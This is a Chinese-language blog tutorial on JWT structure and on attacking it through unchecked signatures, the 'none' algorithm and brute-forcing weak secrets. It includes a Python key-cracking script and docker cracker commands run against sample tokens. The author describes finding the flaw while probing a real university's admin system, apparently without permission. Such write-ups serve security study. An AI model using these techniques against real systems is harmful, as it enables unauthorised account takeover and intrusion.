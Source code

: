 #### JWT预编译

本狐狸在一次对西南某某大学的后台管理系统本来是要找一找目录遍历，偶然发现了这个JWT漏洞

[![oedmFK.png](https://z3.ax1x.com/2021/11/27/oedmFK.png)](https://imgtu.com/i/oedmFK)

[![oedlyd.png](https://z3.ax1x.com/2021/11/27/oedlyd.png)](https://imgtu.com/i/oedlyd)

##### 什么是 JWT？

JSON Web Token（JSON Web 令牌）是一种跨域验证身份的方案。JWT 不加密传输的数据，但能够通

过数字签名来验证数据未被篡改（但是做完下面的 WebGoat 练习后我对这一点表示怀疑）。

JWT 分为**三部分**，**头部**（Header），**声明**（Claims），**签名**（Signature），三个部分以英文句号.隔开。

JWT 的内容以 Base64URL 进行了编码。

**头部**（Header） 

~~~
{
"alg":"HS256",
"typ":"JWT"
}
alg
是说明这个 JWT 的签名使用的算法的参数，常见值用 HS256（默认），HS512 等，也可以为 None。HS256
表示 HMAC SHA256。
typ
说明这个 token 的类型为 JWT
~~~

**声明**（Claims） 

~~~
{
"exp": 1416471934,
"user_name": "user",
"scope": [
"read",
"write"
],
"authorities": [
"ROLE_ADMIN",
"ROLE_USER"
],
"jti": "9bc92a44-0b1a-4c5e-be70-da52075b9a84",
"client_id": "my-client-with-secret"
}
JWT 固定参数有：
iss：发行人
exp：到期时间
sub：主题
aud：用户
nbf：在此之前不可用
iat：发布时间
jti：JWT ID 用于标识该 JWT
~~~

**签名**（Signature）

服务器有一个不会发送给客户端的密码（secret），用头部中指定的算法对头部和声明的内容用此密

码进行加密，生成的字符串就是 JWT 的签名。

下面是一个用 HS256 生成 JWT 的代码例子

HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload),secret)

1、用户端登录，用户名和密码在请求中被发往服务器

2、（确认登录信息正确后）服务器生成 JSON 头部和声明，将登录信息写入 JSON 的声明中（通常不

应写入密码，因为 JWT 是不加密的），并用 secret 用指定算法进行加密，生成该用户的 JWT。此时，

服务器并没有保存登录状态信息。

3、服务器将 JWT（通过响应）返回给客户端

4、用户下次会话时，客户端会自动将 JWT 写在 HTTP 请求头部的 Authorization 字段中

5、服务器对 JWT 进行验证，若验证成功，则确认此用户的登录状态

6、服务器返回响应



###### 攻击 JWT，我常用三种手法：未校验签名、禁用哈希、暴破弱密钥

未校验签名。直接伪造nana用户名为admin，直接发送

https://jwt.io/

禁用哈希。JWT 第一部分含有 alg 字段，该字段指定生成签名采用哪种哈希算法，该站使用的是 HS256，可将该字段篡改为none，某些 JWT 的实现，一旦发现 alg 为 none，将不再生成哈希签名，自然不存在校验签名一说。另外，某些 JWT 实现对大小写敏感，所以，我继续尝试了 None、nOne、NONE，均报错。

~~~python
import jwt
import datetime

dic = {
    'exp': datetime.datetime.now() + datetime.timedelta(days=1),  # 过期时间
    'iat': datetime.datetime.now(),  #  开始时间
    'iss': 'lianzong',  # 签名
    'data': {  # 内容，一般存放该用户id和开始时间
        'a': 1,
        'b': 2,
    },
}

s = jwt.encode(dic, 'secret', algorithm='HS256')  # 加密生成字符串
print(s)
s = jwt.decode(s, 'secret', issuer='lianzong', algorithms=['HS256'])  # 解密，校验签名
print(s)
print(type(s))

~~~



#### jwt爆破

https://hub.fastgit.xyz/Ch1ngg/JWTPyCrack

##### 爆破脚本

~~~python
jwt_str = "xxx.ttt.zzz"
path = "D:/keys.txt"
alg = "HS256"

with open(path,encoding='utf-8') as f:
    for line in f:
        key_ = line.strip()
        try:
            jwt.decode(jwt_str,verify=True,key=key_,algorithm=alg)
            print('found key! --> ' +  key_)
            break
        except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
            print('found key! --> ' +  key_)
            break
        except(jwt.exceptions.InvalidSignatureError):
            continue
    else:
        print("key not found!")
~~~



或者直接用github上项目

https://github.com/brendan-rius/c-jwt-cracker

~~~
docker run -it --rm  jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
~~~

~~~
docker run -it --rm  jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
~~~

~~~
docker run -it --rm  jwtcrack  AHAXTeyJhbGciOiJIUzUxMiJ9.eyJpZCI6MTY1Mjk1OTExNjAyMiwicmVnaXN0ZXJUeXBlIjowLCJ1c2VySWQiOjExMzgsImRldmljZSI6IndlYiIsImRldmljZUlkIjpudWxsfQ.HvxtNlR-qOED39EXqvJyMe_1O3dmdqddDwBHE9vuuh5grnGolScbfHrgIKQYdDbpznCSFKKPKrf17tcbrF7fWg
~~~

~~~
docker run -it --rm  jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuaWtlTmFtZSI6ImJhdG1hbmZ1dHVyZSIsInVzZXJuYW1lIjoiYmF0bWFuZnV0dXJlIiwiZXhwIjoxNjU1MDkzOTEzLCJpc3MiOiJZb3Nha3VyYSJ9.vJsuxnoQfSwg88hnOv5oem4kHX8jQPVwY1YUIRCE95o
~~~









